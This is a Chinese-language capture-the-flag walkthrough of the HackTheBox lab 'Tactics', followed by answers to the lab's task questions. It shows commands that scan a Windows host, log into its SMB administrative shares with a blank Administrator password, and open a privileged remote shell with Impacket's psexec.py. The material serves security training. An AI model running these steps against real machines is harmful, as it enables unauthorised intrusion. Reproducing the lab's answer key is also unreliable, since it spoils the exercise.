







# HackTheBox-Tactics

### 初始点 1 级第十关 Tactics

获取目标机 IP。



nmap 扫描开放端口。

```plain
nmap -sC -Pn {target_IP}
-sC：脚本扫描
-Pn：跳过主机发现，视所有主机都在线
```



135：RPC 远程过程调用协议，支持 Windows 应用之间的通信。

139：允许在局域网中进行文件和打印机通信的协议。

445：服务器消息块（计算机进行文件共享、打印机共享、网络浏览和进程间通信）是一种文件共享协议，SMB 使⽤ IP 端⼝ 139 或 445。

通过 smbclient 工具列出 Administrator 账户的共享，smb 服务器请求密码，有时配置错误时，可以尝试密码为空。

```plain
smbclient -L {target_IP} -U Administrator
-L：列出所有共享
-U：指定用户
```



ADMIN$：系统目录共享

C$：C 盘共享

IPC$：通过命令管道用于进程间通信，不属于文件系统。

**两种方法：**

方法 1：连接默认共享 C$寻找 flag。

执行以下命令，连接到 Administrator 账户的 C$共享。

```plain
smbclient \\\\{target_IP}\\C$ -U Administrator
```



寻找 flag 文件。



最后在目录 C:\\Users\\Administrator\\Desktop 发现 flag.txt。

get 下载，cat 查看。

方法 2：使用 psexec.py 工具获取最高权限 shell，在文件系统中寻找 flag。

psexec.py 是 Impacket 框架的⼀部分，执行以下命令下载 Impacket。

```plain
git clone https://github.com/SecureAuthCorp/impacket.git
```

psexec.py 在目录/impacket/examples

使用方法：

```plain
python3 psexec.py username:password@hostIP
```

这里 administrator 账户没有密码，执行以下命令即可。

```plain
python3 psexec.py administrator@{traget_IP}
```

要求输入密码直接回车。



寻找 flag 文件。



最后在目录 C:\\Users\\Administrator\\Desktop 发现 flag.txt。

type 查看。

### Tactics 任务

**任务 1**

问：当我们的 ping ICMP 数据包被 Windows 防火墙阻止时，我们可以使用哪个 Nmap 开关来枚举计算机？

答：-Pn

**任务 2**

问：3 个字母的缩写 SMB 代表什么？

答：Server Message Block

**任务 3**

问：SMB 使用什么端口进行操作？

答：445

**任务 4**

问：您向“smbclient”提供什么命令行参数来列出可用共享？

答：-L

**任务 5**

问：共享名末尾的什么字符表明它是管理共享？

答：$

**任务 6**

问：在允许用户查看整个文件系统的盒子上可以访问哪个管理共享？

答：C$

**任务 7**

问：我们可以使用什么命令来下载在 SMB 共享上找到的文件？

答：get

**任务 8**

问：Impacket 集合中的哪个工具可用于在系统上获取交互式 shell？

答：psexec.py

**任务 9**

提交 flag。

### 总结

当事情不景气时，继续前进、坚持不懈是至关重要的。
